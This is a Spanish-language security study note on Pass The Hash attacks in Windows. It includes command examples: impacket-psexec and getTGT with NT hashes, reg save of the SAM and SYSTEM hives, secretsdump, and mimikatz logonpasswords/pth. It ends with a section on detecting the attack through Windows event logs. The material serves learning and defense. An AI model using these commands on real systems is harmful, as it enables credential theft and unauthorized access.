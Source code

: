 ----
- Tags: #teoria #practica #windows #basico 
- ------
# Pass The Hash (PTH)
**Pass The Hash** es una técnica utilizada por los a atacantes en la que se aprovechan de un hash de contraseña robado en lugar de la contraseña en texto claro para aunteticarse en un sistema o red. En lugar de descifrar la contraseña real, los atacntes toman el hash de contraseña y lo utilizan como una credencial para accceder a sistemas y recursos sin conocer la contraseña real del usuario.

- ### **Obtención del Hash NT**: El atacante primero necesita robar o adquirir de alguna manera el **Hash NT** de una cuenta de usuario. Esto puede hacerse mediante ataques previos, como ataques de captura de tráfico, [[Kerberoasting Attack]], o explotando vulnerabilidades en sistemas o aplicaciones.

- ### **Uso de Hash NT**: Una vez que el atacante tiene el Hash NT, puede utilizarlo para autenticarse en sistemas y recursos. El sistema o el servidor de destino calcula el hash de la contraesña proporcionado por el atacante y lo compara con el hash robado. Si coinciden, se conocede el acceso sin necesidad de conocer la contraseña real.

- ### **Acceso no autorizado**: Con el Hash NT correcot, el atacante puede obtener acceso no autorizado a sistemas, aplicaciones y recursos que normalmente requerirían una autenticación válida. Esto puede incluir servidores, base de datos, recursos compartidos a nivel de red y otros sistemas críticos.

----
# PoC
Por ejemplo, supongamos que logramos obtener el Hash NT del usuario Administrador, haciendo uso de la suite de impacket, con herramientas como **imapcket-psexec**

```bash
# Una vez obtenido un Hash NT, ejemplo: 
"aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00"

# Ambas maneras son validas para llevar a cabo el Pass The Hash
impacket-psexec WORKGROUP/{Administrator}@{target_ip} -hashes :e0fb1fb85756c24235ff238cbe81fe00
impacket-psexec -hashes aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00 Administrator@{target_ip}
```
De esta manera nos podríamos autenticar como el usuario administrador en la máquina windows sin proporcionar contraseña ya que en lugar de esta proporcionamos el **hash NTLM**. 

Otro ejemplo, es realizar una petición de un TGT, lo que nos permite continuar con el flujo normal de [[Kerberos]] (Gráfico de autenticación: [[KERBEROS_AUTHETICATION_FLOW]]), para obtener acceso a un servicio específico.

```bash
impacket-getTGT {dc}/{username} -hashes :{Hash_NT}

export KRB5CCNAME={path/to/username.ccache/downloaded}

impacket-psexec {dc}/{username}@{ip} -k -no-pass
```
Obteniendo así, una vez más, la [[RCE - (Remote Command Execution)]].

------
# PoC para obtener hashes NT 

Por ejemplo, para realizar un **Pass The Hash** en caso de que tengamos privilegios y poder así intentar escalar los mismos, podríamos hacer uso de la herramienta **impacket-secretsdump** junto al archivo *system* y *sam* del sistema víctima. 

La herramienta **impacket-secretsdump** es una herramienta utilizada para extrar y mostrar informacio´n relacionada con las credenciales y secretos almacenados en un sistema Windows. (Volcado de Hashes NTLM, extracción de credenciales almancenadas, extracción sobre cuentas de usuarios y grupos, mostrar información sobre servicios y volcado de información del registros de seguridad).

El archivo **system** es un archivo del registro de Windows que contiene información sobre la configuración y ajustes del sistema, así como detalles sobre los controladores de dispositivos y la configuración del hardware. 

El archivo **sam (Security Accounts Manager)** es un archivo del registro de Windows, que contiene las cuentas de usuario y las claves de seguridad relacionadas con la autenticación en el sistema.

#### En la máquina victima:
```shell
reg save HKLM\system system
reg save HKLM\sam sam 

# HKLM = HKEY_LOCAL_MACHINE (Una clave de raíz del Registro Windows)
```
Con la instrucción **reg save** estamos creando una copia de seguridad del contenido del archivo **system** y del archivo **sam**, para posteriormente descargarlo a nuestra máquina y así poder dumpear los hashes NT para realizar un **Pass The Hash**. 

#### En la máquina atacante:
```bash
impacket-secretsdump -sam {sam_file} -system {system_file} LOCAL
```
Una vez ejecutado este comando, obtendremos una lista de todos los hashes NT de los usuarios registrados en la máquina victima. 

#### IMPORTATE: Es importante tener en cuenta que esto volcará los hashes almacenados en la máquina, por lo que si estamos en un entorno de Active Directory hay que entender que no se estan volcando los hashes NT del Domain Controler. Para obtener los hashes de los usuarios del dominio de Active Directory habría que enfocarse en el archivo **NTDS.dit**. 

------
# Detectar este Ataque ( #blueteam )

Para entender como evitar un ataque de **Pass The Hash** primero es necesario entender que eventos se generan en una autenticación NTLM normal.

# *Default NTLM Authentication*

Ejemplo, como un usuario Administrador vamos a lanzar una consola para autenticar otro usuarios con privilegios Administrativos: 

```bash
# Lanzar una cmd como un usuario diferente
runas /user:{domain}\{username} cmd.exe

# Conectarse a un servidor de Microsoft SQL para generar una autenticación NTLM
slqcmd -S {host}
```
Una vez realizada las acciones del ejemplo dado, podemos ver que se registrar los siguientes logs.
## Workstation Logs

- **4648** - Intento de logon con credenciales explicitas.
- **4624** - Una cuenta fue logueada de manera exitosa. (Este log cuenta con un **Logon Type: 2**, lo que significa un "Logon interactivo")
- **4672** - Privilegios especiales asignados al nuevo logon. (Esto por que en este ejemplo se utiliza una cuenta administrativa de manera inicial)
## SQL Server Logs

- **4624** - Una cuenta fue logueada de manera exitosa. (Este log cuenta con un **Logon Type: 3**, lo que significa "Network Logon")
- **4672** - Privilegios especiales asignados al nuevo logon.
## Domain Controller Logs

- **4768** - Se solicitó un ticket de autenticación de Kerberos (TGT).
- **4769** - Se solicitó un ticket de serivicio (TGS).
- **4776** - El equipo intento validar credenciales para una cuenta.
# *Pass The Hash Authentication*

Ejemplo, como un usuario Administrador vamos a lanzar una consola para aunticar a otro usuarios con privilegios Administrativos:

```bash
# Se extraer el hash NT con mimikatz de un Usuario
sekurlsa::logonpasswords

# Se autentica usando Pass The Hash
sekurlsa::pth /user:{username} /ntlm:{ntlm} /domain:{domain}

# Contectarse a un servidor de Microsoft SQL
sqlcmd -S {host}
```
Una vez realizada las acciones del ejemplo dado, podemos ver que se registra los siguientes logs.

## Workstation Logs

En este caso, los eventos son los mismos de una legítima autenticación (**4648**, **4624** y **4672**) pero co algunas diferencias.
- **4624** - En este caso ahora cuenta con un **Logon Type: 9**, lo que significa 'NewCredential' a la vez que **Logon Process = seclogo**.
## SQL Server Logs

En este caso son exactamente los mismos (**4624** y **4672**).

## Domain Controller Logs

En este caso **no** veremos autenticación de Kerberos.
# Detección 

Como conclusión, para detectar este tipo de ataques se pueden hacer uso de la siguiente información obtenida:
- **1)** Evento **4624** con **Logon Type 9**, **Authentication Package = Negotiate** y **Logon Process = seclogo**.
- **2)** **Sysmon Event ID 10** (Proceso que indica acceso a LSASS).

